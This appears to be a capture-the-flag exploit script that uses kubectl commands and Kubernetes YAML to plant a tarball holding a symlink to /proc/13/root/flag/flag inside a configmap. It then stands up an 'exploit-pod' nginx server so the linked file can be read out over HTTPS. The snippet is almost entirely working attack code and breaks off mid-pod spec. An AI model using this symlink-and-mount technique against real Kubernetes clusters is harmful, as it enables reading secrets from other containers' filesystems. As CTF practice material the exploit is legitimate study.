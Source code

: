 ```
kubectl -n ctf create secret tls evil-tls \
  --cert=tls.crt \
  --key=tls.key

mkdir -p ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666

#TAR CREATION
ln -sf /proc/13/root/flag/flag link #it was this one
tar -czf superclusters.tar.gz link

mv superclusters.tar.gz ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666/

kubectl -n ctf create configmap static-file --from-file=ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666

cat << 'EOF' > combined.yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: nginx-config
  namespace: ctf
data:
  nginx.conf: |
    server {
        listen 8443 ssl;
        server_name static.cscg.live;
        root /usr/share/nginx/html;
        ssl_certificate /etc/nginx/certs/tls.crt;
        ssl_certificate_key /etc/nginx/certs/tls.key;

        location /ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666/ {
            alias /usr/share/nginx/html/ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666/;
            autoindex on;
        }
    }

---
apiVersion: v1
kind: Pod
metadata:
  name: exploit-pod
  namespace: ctf
  labels:
    app: evil
spec:
  securityContext:
    runAsNonRoot: true
    seccompProfile:
      type: RuntimeDefault
  volumes:
    - name: tls-secret
      secret:
        secretName: evil-tls
    - name: nginx-config
      configMap:
        name: nginx-config
    - name: static-file
      configMap:
        name: static-file
  containers:
    - name: nginx
      image: nginxinc/nginx-unprivileged:alpine
```